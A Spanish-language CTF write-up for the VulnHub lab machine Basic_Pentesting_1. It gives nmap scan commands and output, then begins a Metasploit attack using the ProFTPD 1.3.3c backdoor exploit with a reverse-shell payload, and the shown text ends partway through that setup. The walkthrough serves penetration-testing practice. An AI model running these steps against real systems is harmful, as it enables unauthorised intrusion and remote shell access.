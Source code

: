 # Write Up Basic\_Pentesting\_1 VulnHub

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-07 09:57 EDT
Nmap scan report for 192.168.5.173
Host is up (0.00068s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:A7:30:B0 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.03 seconds
```

### Metasploit

Si vamos a `metasploit` y vemos si tiene alguna vulnerabilidad el `ftp` veremos que si la tiene, por lo que haremos lo siguiente...

```shell
msfconsole -q
```

Dentro del entorno de `metasploit` haremos lo siguiente...

```shell
use exploit/unix/ftp/proftpd_133c_backdoor
```

```shell
set RHOSTS <VICTIM_IP>
```

```shell
set payload payload/cmd/unix/reverse
```
